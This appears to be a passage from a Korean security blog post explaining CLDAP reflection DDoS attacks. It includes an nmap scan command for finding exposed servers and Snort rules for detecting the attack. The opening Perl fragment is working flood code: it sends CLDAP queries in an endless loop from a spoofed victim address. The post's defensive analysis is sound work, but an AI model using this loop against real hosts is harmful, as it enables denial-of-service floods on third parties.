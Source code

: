 ```perl
$query    .= "\x01\x00\x0a\x01\x00\x02\x01\x00\x02\x01";
$query    .= "\x00\x01\x01\x00\x87\x0b\x6f\x62\x6a\x65";
$query    .= "\x63\x74\x63\x6c\x61\x73\x73\x30\x00\x00";
$query    .= "\x00\x30\x84\x00\x00\x00\x0a\x04\x08\x4e";
$query    .= "\x65\x74\x6c\x6f\x67\x6f\x6e";

my $sock =  new Net::RawIP({ udp => {} }) or die;
print "[ Sending CLDAP \"AD Ping\" packets..\n";
while () {
                select(undef, undef, undef, 0.40);         # Sleep 400 milliseconds
                $sock->set({  ip =>  { saddr  => $target, daddr => $cldap},
                             udp =>  { source => 31337,   dest  => $port, data => $query} });
                $sock->send;
}
```

혹은 간단히 `Nmap`의 `ldap-rootdse` 스크립트를 이용해서도 해당 취약점에 대한 스캔을 진행해 볼 수 있다고 한다.
```
nmap -Pn -sSU 389,636 --script ldap-rootdse <target_ip>
```

필자는 `nmap`을 이용하여 취약한 서버에 대한 스캔을 해 보았다.

<script id="asciicast-290796" src="https://asciinema.org/a/290796.js" async></script>

NTP Monlist 공격과 비슷하게 서버의 구성정보를 모두 리턴하는 것을 볼 수 있다.


#### 공격 탐지/방어를 위한 Snort 정책

가장 중요한 것은 불필요한 포트를 외부에 오픈하지 않는 것이다. CLDAP의 경우 외부접근이 필요한 서비스로 보이지 않으므로 반드시 내부망에서만 사용하는것이 바람직 할 것이다. 아래는 `공격을 유발하는 패킷(Request)의 패턴`과 `응답되어 오는 패킷(Response)의 패턴`을 정리해보았다.

![searchRequst_pattern]({{site.url}}/assets/images/2019/12/Screen Shot 2019-12-29 at 10.22.25 PM.png)
*CLDAP DRDoS Request 패킷 패턴(searchRequest)*

![searchResRentry_pattern]({{site.url}}/assets/images/2019/12/Screen Shot 2019-12-29 at 10.24.51 PM.png)
*CLDAP DRDoS Response 패킷 패턴(searchResEntry)*

![searchResDone_pattern]({{site.url}}/assets/images/2019/12/Screen Shot 2019-12-29 at 10.24.01 PM.png)
*CLDAP DRDoS Response 패킷 패턴(searchResDone)*


```
1. CLDAP DRDoS Resquest 패킷 탐지/방어 (searchRequest)
alert udp any any -> any 389,636 (content:"|3025020101632004000a01000a0100020100020100010100870b6f726a656374636c61737330|")

2. CLDAP DRDoS Response 패킷 탐지/방어 (searchResEntry)
alert udp any 389,636 -> any any (content:"|648400000ba40400308400000b9c|";)

3. CLDAP DRDoS Response 패킷 탐지/방어 (searchResDone)
alert udp any 389,636 -> any any (content:"|3084000000100201016584000000070a010004000400|";)
```
